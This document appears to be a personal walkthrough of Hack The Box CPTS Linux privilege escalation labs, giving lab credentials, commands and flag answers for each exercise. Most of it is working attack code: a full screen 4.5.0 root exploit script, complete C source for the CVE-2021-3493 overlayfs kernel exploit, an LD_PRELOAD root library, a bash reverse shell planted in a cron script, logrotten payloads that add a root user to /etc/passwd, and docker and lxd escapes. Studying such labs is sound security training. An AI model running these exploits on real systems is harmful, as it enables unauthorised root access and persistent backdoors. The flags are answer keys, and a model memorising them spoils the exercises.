

# CPTS labs - 24 Linux Privilege Escalation

Module: [Linux Privilege Escalation](https://academy.hackthebox.com/module/51)

### Information Gathering

SSH to  with user "htb-student" and password "HTB_@cademy_stdnt!".
Enumerate the Linux environment and look for interesting files that might contain sensitive data. Submit the flag as the answer.

```
ssh htb@$ip
sudo -l
sudo -u lab_adm /bin/ncdu
# Escape to gain a shell with keyboard "b"

# After enumerating for a while
cd /home/labadm
cat .viminfo
# Note the file /usr/lib/int-check.sh within the .viminfo
cat /usr/lib/int-check.sh
```

Results: HTB{1nt3rn4l_5cr1p7_l34k}


**What is the latest Python version that is installed on the target?**

```
ls -la /etc/python* 
```

Results: 3.11


SSH to (ACADEMY-LPE-NIX02) with user "htb-student" and password "Academy_LLPE!". Find the WordPress database password.

```
ssh htb@$ip
find / ! -path "*/proc/*" -iname "*config*" -type f 2>/dev/null
# Note  /var/www/html/wp-config.php listed
cat  /var/www/html/wp-config.php
```

Results: W0rdpr3ss_sekur1ty!


### Environment-based Privilege Escalation

**SSH to (ACADEMY-LPE-NIX02) with user "htb-student" and password "Academy_LLPE!". Review the PATH of the htb-student user. What non-default directory is part of the user's PATH?**

```
echo $PATH
# Output: /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/tmp
```

Results: /tmp


**SSH to  with user "htb-user" and password "HTB_@cademy_us3r!". Use different approaches to escape the restricted shell and read the flag.txt file. Submit the contents as the answer.**

```
# First, we locate the folder with the accepted binaries
echo $PATH

# Second, if ls is restricted, we can use echo `*`. For instance, for printing the files in current directory
echo *

# If the PATH was /home/user/bin, we can list the contents of PATH (the commands we can execute) with echo
echo /home/user/bin/*

# Also, if echo works, but not cat or some redirections characters, we can use that in out favor to read, for instance a file:
echo $(< flag.txt)
```

Results: HTB{35c4p3_7h3_r3stricted_5h311}


## Permissions-based Privilege Escalation


**SSH to (ACADEMY-LPE-NIX02) with user "htb-student" and password "Academy_LLPE!". Find a file with the setuid bit set that was not shown in the section command output (full path to the binary).**

```
# List binaries with setuid permissions
find / -perm /4000 2>/dev/null

# Note that /bin/sed did not appear on the section
```

Results: /bin/sed

**Find a file with the setgid bit set that was not shown in the section command output (full path to the binary).**

```
# List binaries with setgid permissions
find / -user root -perm -6000 -exec ls -ldb {} \; 2>/dev/null

# Note that /usr/bin/facter did not appear on the section
```

Results: /usr/bin/facter


**What command can the htb-student user run as root?**

```
sudo -l
```

Results: /usr/bin/openssl


**Use the privileged group rights of the secaudit user to locate a flag.**

```
# Check privilege groups 
id

# Note the ADM permissions. With this we can read /var/log. Meaning that we can see logs from apache2. Let's see
cat /var/log/apache2/access.log

# Note the flag.
```

Results: ch3ck_th0se_gr0uP_m3mb3erSh1Ps!


**SSH to  with user "htb-student" and password "HTB_@cademy_stdnt!". Escalate the privileges using capabilities and read the flag.txt file in the "/root" directory. Submit its contents as the answer.**


```
# Enumerate binaries with capabilities:
find /usr/bin /usr/sbin /usr/local/bin /usr/local/sbin -type f -exec getcap {} \;

# Note in the list /usr/bin/vim.basic = cap_dac_override+eip
# We will modify the /etc/passwd
echo -e ':%s/^root:[^:]*:/root::/\nwq!' | /usr/bin/vim.basic -es /etc/passwd

# Now, when doing 
cat /etc/passwd | head -n1

# We will see that the `x` in that line is gone, which means that we can use the command `su` to log in as root without being asked for the password: 
root::0:0:root:/root:/bin/bash

# Log as root
su root
cat /root/flag.txt
```

Results: HTB{c4paBili7i3s_pR1v35c}


## Service-based Privilege Escalation

**SSH to  (ACADEMY-LPE-NIX02) with user "htb-student" and password "Academy_LLPE!" Connect to the target system and escalate privileges using the Screen exploit. Submit the contents of the flag.txt file in the /root/screen_exploit directory.**

```
# Connect via ssh
ssh htb-student@$ip

screen -version

nano screen_exploit.sh
```

Enter this content for the script:

```

```bash
#!/bin/bash
# screenroot.sh
# setuid screen v4.5.0 local root exploit
# abuses ld.so.preload overwriting to get root.
# bug: https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html
# HACK THE PLANET
# ~ infodox (25/1/2017)
echo "~ gnu/screenroot ~"
echo "[+] First, we create our shell and library..."
cat << EOF > /tmp/libhax.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
#include <sys/stat.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
rm -f /tmp/libhax.c
cat << EOF > /tmp/rootshell.c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF
gcc -o /tmp/rootshell /tmp/rootshell.c -Wno-implicit-function-declaration
rm -f /tmp/rootshell.c
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so...
/tmp/rootshell
```

Execute it

```
chmod +x screen_exploit.sh
./screen_exploit.sh
cat /root/screen_exploit/flag.txt
```

Results: 91927dad55ffd22825660da88f2f92e0


**SSH to  (ACADEMY-LPE-NIX02) with user "htb-student" and password "Academy_LLPE!" Connect to the target system and escalate privileges by abusing the misconfigured cron job. Submit the contents of the flag.txt file in the /root/cron_abuse directory.**

```
find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null
```

Output:

```
/etc/cron.daily/backup
/dmz-backups/backup.sh
```

A quick look in the /dmz-backups directory shows what appears to be files created every three minutes.  Since the script is world-writable, modify it to include a **reverse shell payload**.

```
echo '#!/bin/bash' > /dmz-backups/backup.sh
echo 'bash -i >& /dev/tcp/$IPAttacker/4444 0>&1' >> /dmz-backups/backup.sh
```

On your attack machine, start a Netcat listener to catch the shell:

```
nc -lnvp 4444
```

Wait for Cron to Execute the Script:

```
cat /root/cron_abuse/flag.txt
```

Results: 14347a2c977eb84508d3d50691a7ac4b


SSH to  with user "htb-student" and password "HTB_@cademy_stdnt!".  Escalate the privileges and submit the contents of flag.txt as the answer.

We note that we belong to the group lxd

```
id
```



We note that we have a container image in our home folder. We also note that lxc is installed in our machine:

```
cd ContainerImages
ls -la
which lxc
```

We import the image and list available images to check that it's there:

```
lxc image import alpine-v3.18-x86_64-20230607_1234.tar.gz --alias myimage
lxc image list
```

Initiate your image inside a new container that we call ignite:

```
lxc init myimage ignite -c security.privileged=true
```


Mount the container inside the /root directory

```
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
```

Initialize the container

```
lxc start ignite
```

Launch a shell command in the container

```
lxc exec ignite /bin/sh
```


List the root folder within the mounted unit at `/mnt/root`:

```
ls -l /mnt/root/root
```

Print the flag:

```
cat  /mnt/root/root/flag.txt
```

Results: HTB{C0nT41n3rs_uhhh}


**SSH to  (ACADEMY-LLPE-DOCKER) with user "htb-student" and password "HTB_@cademy_stdnt!". Escalate the privileges on the target and obtain the flag.txt in the root directory. Submit the contents as the answer.**

```
ssh htb-student@$ip

# WE check the groups that we belong to
id
```

Output:

```
uid=1001(htb-student) gid=1001(htb-student) groups=1001(htb-student),118(docker)
```

We will abuse writable docker socket. Usually, this socket is located in /var/run/docker.sock. Checking out:

```
ls -la /var/run/docker.sock
```

Output:

```
srw-rw---- 1 root docker 0 /var/run/docker.sock
```

 If we act as a user, not in one of these two groups, and the Docker socket still has the privileges to be writable, then we can still use this case to escalate our privileges.

```shell-session
docker -H unix:///var/run/docker.sock run -v /:/mnt --rm -it ubuntu chroot /mnt bash
```

We open a docker instance with  root access. The folder /root is also mounted at the /root location. We can print the flag.txt

```
ls -la /root
cat /root/flag.txt
```

Results: HTB{D0ck3r_Pr1vE5c}


**SH to  (ACADEMY-LLPE-LOG) with user "htb-student" and password "HTB_@cademy_stdnt!". Escalate the privileges and submit the contents of flag.txt as the answer.**

Connect via ssh to the target. 

We run linpeas_linux_amd64 and notice the lines:

```


```

To exploit `logrotate`, we need some requirements that we have to fulfill.

**1.**  we need `write` permissions on the log files

```
ls -la /home/htb-student/backups
```

**2.** logrotate must run as a privileged user or `root`. This is the normal behaviour.

```
which logrotate
ls -la /usr/sbin/logrotate
```

**3.** vulnerable versions:
    - 3.8.6
    - 3.11.0
    - 3.15.0
    - 3.18.0

```
logrotate --version
```

Output is 3.11.

Craft the payload:

```
echo 'cat /root/flag.txt > /home/htb-student/flag.txt' > payload
```

Run the exploit:

```
# In the kali machine
git clone https://github.com/whotwagner/logrotten.git
cd logrotten
python3 -m http.server 80

# In the target host, download the file and compile it:
wget http://10.10.15.41/logrotten.c
gcc -o logrotten logrotten.c

# Run the exploit
./logrotten -p payload /home/htb-student/backups/access.log

# Open another ssh connection with the target host and trigger the log rotation mechanism for access.log
echo "This is a string" > /home/htb-student/backups/access.log
```

As an outcome (we need to run this even 3 times), we will obtain the flag.txt in our /home/htb-student folder.

```
cat /home/htb-student/flag.txt
```

Results:  HTB{l0G_r0t7t73N_00ps}

Another way to do it:

We will generate a new user with root capabilities:

```
# Generate a hashed password in the target host. My password is going to be "password123"
openssl passwd -1 password123

# Craft the payload. This payload will add the user lele with password password123 with the home directory set to root
# username:hashed_password:UID:GID:comment:home_directory:shell
echo "echo echo "echo 'lele:\$1\$twJx/0OM\$PhLy4vWVoaEWLrd52BDbq/:0:0:lele:/root:/bin/bash' >> /etc/passwd" > payload

# Run the exploit
./logrotten -p payload /home/htb-student/backups/access.log

# Open another ssh connection with the target host and trigger the log rotation mechanism for access.log
echo "This is a string" > /home/htb-student/backups/access.log

# Now we wait for some minutes and after a while, we can cat the /etc/passwd file and see the lele user in there:
cat /etc/passwd

# We can impersonate lele
su lele
# Enter password password123
```


SSH to (ACADEMY-LPE-NIX02) with user "htb-student" and password "Academy_LLPE!". Review the NFS server's export list and find a directory holding a flag.

```ssh
ssh htb-student@ip
cat /etc/exports

# From the attacking machine:
mkdir ~/borrar/target-NFS
sudo mount -t nfs 10.129.2.210:/var ~/borrar/target-NFS/

# List contents
tree .

# Print the flag 
cat /var/nfs/general/exports_flag.txt
```


## Linux Internals-based Privilege Escalation


**SSH to (ACADEMY-LPE-NIX02) with user "htb-student" and password "Academy_LLPE!". Escalate privileges using a different Kernel exploit. Submit the contents of the flag.txt file in the /root/kernel_exploit directory.**

```
ssh htb-student@$ip
uname -a
```

Output:

```
Linux NIX02 4.15.0-76-generic #86-Ubuntu SMP Fri Jan 17 17:24:28 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```

After looking for it, I found: https://github.com/briskets/CVE-2021-3493/blob/main/exploit.c

```
nano exploit.c
```

Content:

```
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <err.h>
#include <errno.h>
#include <sched.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/wait.h>
#include <sys/mount.h>

//#include <attr/xattr.h>
//#include <sys/xattr.h>
int setxattr(const char *path, const char *name, const void *value, size_t size, int flags);


#define DIR_BASE    "./ovlcap"
#define DIR_WORK    DIR_BASE "/work"
#define DIR_LOWER   DIR_BASE "/lower"
#define DIR_UPPER   DIR_BASE "/upper"
#define DIR_MERGE   DIR_BASE "/merge"
#define BIN_MERGE   DIR_MERGE "/magic"
#define BIN_UPPER   DIR_UPPER "/magic"


static void xmkdir(const char *path, mode_t mode)
{
    if (mkdir(path, mode) == -1 && errno != EEXIST)
        err(1, "mkdir %s", path);
}

static void xwritefile(const char *path, const char *data)
{
    int fd = open(path, O_WRONLY);
    if (fd == -1)
        err(1, "open %s", path);
    ssize_t len = (ssize_t) strlen(data);
    if (write(fd, data, len) != len)
        err(1, "write %s", path);
    close(fd);
}

static void xcopyfile(const char *src, const char *dst, mode_t mode)
{
    int fi, fo;

    if ((fi = open(src, O_RDONLY)) == -1)
        err(1, "open %s", src);
    if ((fo = open(dst, O_WRONLY | O_CREAT, mode)) == -1)
        err(1, "open %s", dst);

    char buf[4096];
    ssize_t rd, wr;

    for (;;) {
        rd = read(fi, buf, sizeof(buf));
        if (rd == 0) {
            break;
        } else if (rd == -1) {
            if (errno == EINTR)
                continue;
            err(1, "read %s", src);
        }

        char *p = buf;
        while (rd > 0) {
            wr = write(fo, p, rd);
            if (wr == -1) {
                if (errno == EINTR)
                    continue;
                err(1, "write %s", dst);
            }
            p += wr;
            rd -= wr;
        }
    }

    close(fi);
    close(fo);
}

static int exploit()
{
    char buf[4096];

    sprintf(buf, "rm -rf '%s/'", DIR_BASE);
    system(buf);

    xmkdir(DIR_BASE, 0777);
    xmkdir(DIR_WORK,  0777);
    xmkdir(DIR_LOWER, 0777);
    xmkdir(DIR_UPPER, 0777);
    xmkdir(DIR_MERGE, 0777);

    uid_t uid = getuid();
    gid_t gid = getgid();

    if (unshare(CLONE_NEWNS | CLONE_NEWUSER) == -1)
        err(1, "unshare");

    xwritefile("/proc/self/setgroups", "deny");

    sprintf(buf, "0 %d 1", uid);
    xwritefile("/proc/self/uid_map", buf);

    sprintf(buf, "0 %d 1", gid);
    xwritefile("/proc/self/gid_map", buf);

    sprintf(buf, "lowerdir=%s,upperdir=%s,workdir=%s", DIR_LOWER, DIR_UPPER, DIR_WORK);
    if (mount("overlay", DIR_MERGE, "overlay", 0, buf) == -1)
        err(1, "mount %s", DIR_MERGE);

    // all+ep
    char cap[] = "\x01\x00\x00\x02\xff\xff\xff\xff\x00\x00\x00\x00\xff\xff\xff\xff\x00\x00\x00\x00";

    xcopyfile("/proc/self/exe", BIN_MERGE, 0777);
    if (setxattr(BIN_MERGE, "security.capability", cap, sizeof(cap) - 1, 0) == -1)
        err(1, "setxattr %s", BIN_MERGE);

    return 0;
}

int main(int argc, char *argv[])
{
    if (strstr(argv[0], "magic") || (argc > 1 && !strcmp(argv[1], "shell"))) {
        setuid(0);
        setgid(0);
        execl("/bin/bash", "/bin/bash", "--norc", "--noprofile", "-i", NULL);
        err(1, "execl /bin/bash");
    }

    pid_t child = fork();
    if (child == -1)
        err(1, "fork");

    if (child == 0) {
        _exit(exploit());
    } else {
        waitpid(child, NULL, 0);
    }

    execl(BIN_UPPER, BIN_UPPER, "shell", NULL);
    err(1, "execl %s", BIN_UPPER);
}
```

Compile the file:

```
gcc exploit.c -o exploit
```

And run it

```
./exploit
```

Cat the flag:

```
cat /root/kernel_exploit/flag.txt
```

Results: 46237b8aa523bc7e0365de09c0c0164f


**SSH to  (ACADEMY-LPE-NIX02) with user "htb-student" and password "Academy_LLPE!". Escalate privileges using LD_PRELOAD technique. Submit the contents of the flag.txt file in the /root/ld_preload directory.**

```bash
sudo -l
```

Output:

```shell-session
Matching Defaults entries for htb-student on NIX02:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+=LD_PRELOAD

User htb-student may run the following commands on NIX02:
    (root) NOPASSWD: /usr/bin/openssl
```

This user has rights to restart the openssl service as root, but since this is `NOT` a [GTFOBin](https://gtfobins.github.io/#apache) and the `/etc/sudoers` entry is written specifying the absolute path, this could not be used to escalate privileges under normal circumstances.


However, we can exploit the `LD_PRELOAD` issue to run a custom shared library file. Let's compile the following library:

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```

We can compile this as follows:

```shell-session
 gcc -fPIC -shared -o library.so library.c -nostartfiles
```

Finally, we can escalate privileges using the below command. Make sure to specify the full path to your malicious library file.

```shell-session
sudo LD_PRELOAD=~/library.so /usr/bin/openssl restart
```

```
cat /root/ld_preload/flag.txt 
```

Results:  6a9c151a599135618b8f09adc78ab5f1
